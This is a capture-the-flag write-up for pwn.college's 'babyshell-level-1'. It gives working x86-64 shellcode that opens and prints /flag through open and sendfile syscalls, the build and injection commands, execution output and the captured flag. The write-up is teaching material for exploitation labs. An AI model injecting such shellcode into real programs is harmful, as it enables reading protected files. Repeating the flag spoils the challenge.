 # level1
## Description
Write and execute shellcode to read the flag!
## Solution
- The challenge file in `/challenge` is `babyshell-level-1`. Running it:
```
###
### Welcome to ./babyshell-level-1!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffce7d8f4b0!
Reading 0x1000 bytes from stdin.
```
- I used the shellcode and steps as instructed in the slides and lecture videos to read the flag.
- First, I made the following `shellcode.s` file:
```assembly
.intel_syntax noprefix
    mov rbx, 0x00000067616c662f	# push "/flag" filename
    push rbx
    mov rax, 2				    # syscall number of open
    mov rdi, rsp				# point the first argument at stack (where we have "/flag")
    mov rsi, 0				    # NULL out the second argument (meaning, O_RDONLY)
    syscall				        # trigger open("/flag", NULL)
    mov rdi, 1				    # first argument to sendfile is the file descriptor to output to (stdout)
    mov rsi, rax				# second argument is the file descriptor returned by open
    mov rdx, 0				    # third argument is the number of bytes to skip from the input file
    mov r10, 1000				# fourth argument is the number of bytes to transfer to the output file
    mov rax, 40				    # syscall number of sendfile
    syscall				        # trigger sendfile(1, fd, 0, 1000)
    mov rax, 60				    # syscall number of exit
    syscall				        # trigger exit()
```
- Then, I compiled it using the following command: `gcc -nostdlib -static shellcode.s -o shellcode-elf`.
- Then, I extracted the shellcode using the following command: `objcopy --dump-section .text=shellcode-raw shellcode-elf`.
- Then, I sent the shellcode to the `stdin` of the challenge using the following command: `cat shellcode-raw /dev/stdin | /challenge/babyshell-level-1`. This gave me the flag:
```
###
### Welcome to /challenge/babyshell-level-1!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

In this challenge, shellcode will be copied onto the stack and executed. Since the stack location is randomized on every
execution, your shellcode will need to be *position-independent*.

Allocated 0x1000 bytes for shellcode on the stack at 0x7ffc8e91e800!
Reading 0x1000 bytes from stdin.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffc8e91e800 | 48 bb 2f 66 6c 61 67 00 00 00                 | movabs rbx, 0x67616c662f
0x00007ffc8e91e80a | 53                                            | push rbx
0x00007ffc8e91e80b | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffc8e91e812 | 48 89 e7                                      | mov rdi, rsp
0x00007ffc8e91e815 | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffc8e91e81c | 0f 05                                         | syscall 
0x00007ffc8e91e81e | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffc8e91e825 | 48 89 c6                                      | mov rsi, rax
0x00007ffc8e91e828 | 48 c7 c2 00 00 00 00                          | mov rdx, 0
0x00007ffc8e91e82f | 49 c7 c2 e8 03 00 00                          | mov r10, 0x3e8
0x00007ffc8e91e836 | 48 c7 c0 28 00 00 00                          | mov rax, 0x28
0x00007ffc8e91e83d | 0f 05                                         | syscall 
0x00007ffc8e91e83f | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffc8e91e846 | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{kUKly3S5RudW4hbKobSSkBixBCJ.01NxIDL5QTO0czW}
```
- The flag is `pwn.college{kUKly3S5RudW4hbKobSSkBixBCJ.01NxIDL5QTO0czW}`.